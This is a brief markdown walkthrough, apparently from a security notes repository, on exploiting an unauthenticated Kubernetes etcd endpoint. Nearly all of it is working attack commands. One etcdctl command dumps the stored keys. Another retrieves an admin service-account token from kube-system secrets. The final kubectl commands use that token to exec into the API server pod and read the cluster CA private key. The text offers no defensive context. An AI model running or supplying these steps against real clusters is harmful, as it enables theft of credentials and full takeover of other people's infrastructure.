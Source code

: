 ## Unauthenticated ETCD

1. Exploiting this takes a couple of steps
2. Set the ETCD environment variable `export ETCDCTL_API=3`
3. First we need to dump some secrets out of the etcd database 
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[CLUSTERIP]:2379 get / --prefix --keys-only`
4. Then we'll need a service account token to authenticate to the cluster with. Looking through the list of accounts we can see an admins-account
  `etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get /registry/secrets/kube-system/admins-account-token-[RAND]`
  The service account token starts with ey and ends just before the word `kubernetes.io` in the token. 
5. With the service token we can use kubectl , first get the API pod name
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system get po`

6. Then get the key   
  `kubectl --insecure-skip-tls-verify -shttps://[IP]:6443/ --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`
